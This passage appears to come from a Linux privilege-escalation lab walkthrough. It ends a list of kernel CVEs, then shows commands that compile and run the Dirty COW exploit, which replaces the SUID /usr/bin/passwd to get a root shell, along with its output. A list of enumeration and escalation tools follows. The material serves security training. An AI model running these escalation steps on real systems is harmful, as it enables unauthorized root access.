 ```
      CVE-2010-3904
      Source: http://www.exploit-db.com/exploits/15285
  [13] reiserfs
      CVE-2010-1146
      Source: http://www.exploit-db.com/exploits/12130
  [14] video4linux
      CVE-2010-3081
      Source: http://www.exploit-db.com/exploits/15024
```

The popular Linux kernel exploit "Dirty COW" should be listed. Exploit code for
Dirty COW can be found at /home/user/tools/kernel-exploits/dirtycow/c0w.c.
It replaces the SUID file /usr/bin/passwd with one that spawns
a shell (a backup of /usr/bin/passwd is made at /tmp/bak).

Compile the code and run it (note that it may take several minutes to complete):

```
user@debian:~$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
user@debian:~$ ./c0w
                                
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 22354000

madvise 0

ptrace 0
```

Once the exploit completes, run `/usr/bin/passwd` to gain a root shell:

```
user@debian:~$ /usr/bin/passwd
user@debian:~# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

Tools:
[1] linux-exploit-suggester -> https://github.com/jondonas/linux-exploit-suggester-2 (Written in perl but better) && https://github.com/mzet-/linux-exploit-suggester (The original)
[2] LinEnum -> https://github.com/rebootuser/LinEnum
[3] PEASS -> https://github.com/carlospolop/PEASS-ng
[4] Bashark -> https://github.com/redcode-labs/Bashark
[5] PostEnum -> https://github.com/mostaphabahadou/postenum
[6] linuxprivcheck -> https://github.com/cervoise/linuxprivcheck
[7] linux-smart-enumeration -> https://github.com/diego-treitos/linux-smart-enumeration/
[8] linux-soft-exploit-suggester -> https://github.com/belane/linux-soft-exploit-suggester
[9] Uptux -> https://github.com/initstring/uptux
[10] GTFO -> https://gtfobins.github.io/ && https://github.com/t0thkr1s/gtfo
[11] GTFOBlookup -> https://github.com/nccgroup/GTFOBLookup
[12] SUID3NUM -> https://github.com/Anon-Exploiter/SUID3NUM
[13] Traitor -> https://github.com/liamg/traitor
[14] BeRoot -> https://github.com/AlessandroZ/BeRoot
[15] AutoLocalPrivilegeEscalation -> https://github.com/ngalongc/AutoLocalPrivilegeEscalation
[16] PSPY -> https://github.com/DominicBreuker/pspy
[17] Basic-Linux-Privilege-Escalation -> https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
[18] Awesome-privilege-escalation -> https://github.com/m0nad/awesome-privilege-escalation
